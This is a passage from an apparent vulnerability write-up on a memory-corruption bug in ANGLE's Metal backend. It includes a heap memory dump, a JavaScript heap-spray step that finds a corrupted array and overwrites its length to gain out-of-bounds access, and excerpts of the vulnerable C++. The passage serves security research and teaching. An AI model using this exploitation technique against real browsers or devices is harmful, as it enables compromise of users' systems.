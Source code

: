 ```plaintext
0x7fdb3d94c920: 0x0000000000000000
0x7fdb3d94c928: 0x00000008515baca8
0x7fdb3d94c930: 0x00000008515baca8
0x7fdb3d94c938: 0x00000008515baca8
0x7fdb3d94c940: 0x00000008515baca8
```
&nbsp;

### 3. find the corrupted array

```javascript
for(let i=0;i<SPRAY_SIZE;i++)
{
    if( floatAsQword(g_double_array[i][0]) == 0x1010000000000 ) // find corrupted array.
    {
        corrupted_array = g_double_array[i];
        corrupted_array[11] = qwordAsFloat( 0x0000133800001338 ); // set to vector/public length
        for(let i=0;i<SPRAY_SIZE;i++) {
            if(g_double_array[i].length == 0x1338) {
                found = true;
                g_index = i;
                fake_array = g_double_array[i];
            }
        }                    
        break;
    }
} // end spray-array for loop
```

The code searches for the corrupted array by checking the index 0 (i.e. first element) is set to 0x1010000000000 value in the sprayed arrays.

The reason for this process makes more sense if we look into what happens when the vulnerability is triggered.

```c++
angle::Result ContextMtl::handleDirtyGraphicsTransformFeedbackBuffersEmulation(
    const gl::Context *context)
// ...
mRenderEncoder.setBufferForWrite(
    gl::ShaderType::Vertex, bufferHandle->getCurrentBuffer(), 0, actualBufferIdx);
// ...
```

As we have seen previously, `getCurrentBuffer` is attacker-controlled and the `setBufferForWrite` method is called.

The `setBufferForWrite` method consequently calls `setUsedByCommandBufferWithQueueSerial`, and the followibng is the `setBufferForWrite` method.

```c++
RenderCommandEncoder &RenderCommandEncoder::setBufferForWrite(gl::ShaderType shaderType,
    const BufferRef &buffer,
    uint32_t offset,
    uint32_t index)
{
    // ...
    cmdBuffer().setWriteDependency(buffer);
    // ...
}
```
